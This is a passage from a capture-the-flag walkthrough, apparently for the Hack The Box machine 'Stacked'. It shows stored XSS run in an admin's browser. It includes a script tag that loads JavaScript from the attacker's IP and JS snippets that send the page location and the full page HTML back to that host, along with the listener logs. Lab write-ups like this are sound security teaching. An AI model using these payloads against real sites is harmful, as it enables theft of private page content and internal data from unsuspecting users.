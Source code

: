 
It actually makes life a bit easier if instead of redirecting the entire page
to me, I just have it load JavaScript from my server. I’ll try with this
payload:

    
    
    <script src="http://10.10.14.6/xss.js"></script>
    

A minute later:

    
    
    10.10.11.112 - - [24/Aug/2021 11:27:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:27:04] "GET /xss.js HTTP/1.1" 404 -
    

### Orient

#### URL

In previous challenges where I had this kind of XSS access (like
[CrossFit](/2021/03/20/htb-crossfit.html#identify-xss) and
[BankRobber](/2020/03/07/htb-bankrobber.html#xss---admin-login)), I had a
specific target in mind, some action I wanted to do as the admin. In this
case, I’ve seen very little of the site, so I’ll need to do some orienting.

I’ll write a simple JS script that sends the current location of the page back
to my server:

    
    
    var exfilreq = new XMLHttpRequest();    
    exfilreq.open("GET", "http://10.10.14.6/" + document.location, false);    
    exfilreq.send(); 
    

After a minute, there’s a request to get the payload, followed by a request
showing the url:

    
    
    10.10.11.112 - - [24/Aug/2021 11:42:03] "GET /xss-1.js HTTP/1.1" 200 -
    10.10.11.112 - - [24/Aug/2021 11:42:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:42:04] "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1" 404 -
    

Nice. In that 404 I can see that the current location my script is executing
in is `http://mail.stacked.htb/read-mail.php?id=2`. That looks like some kind
of mail endpoint. I’ll try setting that subdomain in `/etc/hosts` and visiting
it, but it must be only on localhost.

#### Source

I can update the JavaScript request slightly to pull the full page HTML:

    
    
    var exfilreq = new XMLHttpRequest();    
    exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
    exfilreq.send(document.documentElement.outerHTML); 
    